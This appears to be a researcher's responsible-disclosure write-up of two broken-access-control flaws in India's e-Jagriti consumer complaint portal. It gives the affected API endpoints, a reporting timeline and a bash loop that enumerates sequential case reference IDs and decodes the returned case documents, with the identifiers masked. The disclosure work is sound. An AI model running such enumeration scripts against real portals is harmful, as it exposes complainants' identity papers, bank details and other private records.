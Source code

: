```yaml
---
title: E-Jagriti portal vulnerabilities 2025
date:
    created: 2025-08-14
    updated: 2025-09-12
---
```


<br>
The EJagriti portal (<https://e-jagriti.gov.in>), which is an upgrade of
e-daakhil portal, is mandatory for consumer complaint filing and tracking.
Any complaint has to be uploaded on this portal before submitting it to the
consumer commission registry. It is developed and maintained by NIC(<https://nic.gov.in>)
and content owned by the Department Of Consumer Affairs, Ministry Of Consumer Affairs,
Food & Public Distribution, Government Of India.

These vulnerabilities allowed access to all case
documents (including sensitive information such as ID proofs, affidavits with
sign, complaint details, and depending on the case: medical records, bank
details, purchase details, land records etc. ) in a trivial manner. Further,
the case reference ID, being a serially increasing number, allowed serial
access to all other users' case documents.

Summary of the vulnerabilities

| Sr | API  | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|------|---------------|------------|------------|--------------------------|
| 1  | [CaseFilingDocumentDetails](#1-casefilingdocumentdetails) | 31 May 2025 | Partial fix before 17 June. Full fix never confirmed to me. Guessing July | 18-47 | 38480225 |
| 2  | [getAllComplainantRespondantDetails](#2-getallcomplainantrespondantdetails) | 31 May 2025 | Partial fix before 17 June. Full fix never confirmed to me. Guessing July | 18-47 | 38480225 |

Root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-35 Path Traversal, CWE-284 Improper
  Access Control, CWE-285 Improper Authorization
- A04 2021 Insecure Design: Insecure Direct Object Reference
- A07 2021 Identification and Authentication Failures: CWE-287 Improper
  Authentication, CWE-613 Insufficient Session Expiration

<!-- more -->

In my <https://pgportal.gov.in> complaint and appeal, I was assured that after fixing
the issue, they will reach out to me for verification. But that hasn't
happened as of the date of 12 September 2025. In a public "jansunwai" in the
last week of August, the e-jagriti officers confirmed to me that they have
fixed the issue and I can proceed with the public release of this report.

### 1. CaseFilingDocumentDetails

This API accepted a query parameter `fillingReferenceNumber` and retrieves
details about the case filing documents, masked as `$$$$`. This case
reference is simply a date in format `YYYYMMDD` followed by a 4 digit
serially increasing number, xxxx starting from 0001.

This API returned the following files:

1. the memo of parties which contains PII of the complainant, address, phone
number, email ID, etc.,
2. complaint itself which contains sensitive information like bank account details,
Aadhaar number, policy number, income information,
3. Signed annexures which have identity proofs, signature, affidavit, etc.
4. Judgement and orders related to the case.
5. Any replies or rejoinders filed by the complainant or the opposite party.

Simply opening this URL in the browser was enough

```bash title="sample_urls.sh" linenums="1"
https://e-jagriti.gov.in/services/case/caseFilingService/v2/getCaseFillingDocumentDetails?fillingReferenceNumber=$$$$
```

However, for decoding the base64-encoded files, this is a sample script.
The output contained an array of objects (accessible via `jq` (<https://jqlang.org/>))
which had base64 encoded file, which can be decoded to get the actual PDF or image file.

```bash title="sample_script.sh" linenums="1" hl_lines="1 4 11"
for reference in {$$$$$$$$..$$$$$$$$}; do
    timestamp=$(date '+%F_%T')
    outname="output_doc_${reference}_${timestamp}"
    curl -v 'https://e-jagriti.gov.in/services/case/caseFilingService/v2/getCaseFillingDocumentDetails?fillingReferenceNumber=$$$$'"$reference" \
    -o "${outname}.json"

    jq '.' "${outname}.json" > "${outname}_pretty.json"

    jq -r '.data.caseFillingDocumentDetailsResponseList[] | "\(.fileName)\t\(.fileContent)"' "${outname}.json" | while IFS=$'\t' read -r fileName fileContent; do
        echo "${fileContent}" > "${outname}_files_${fileName}.txt"
        base64 --decode "${outname}_files_${fileName}.txt" > "${outname}_files_${fileName}.pdf"
    done
done
```

### 2. getAllComplainantRespondantDetails

This API differs from the above in that this output is machine readable JSON
text. The above API returns a document which contained the document.

This API returned the following data:

1. the personal contact details of parties which contained address, phone
number, email ID, etc.

```bash title="sample_urls.sh" linenums="1"
https://e-jagriti.gov.in/services/case/caseFilingService/v2/getAllComplainantRespondantDetails?filingReferenceNumber=$$$$
```
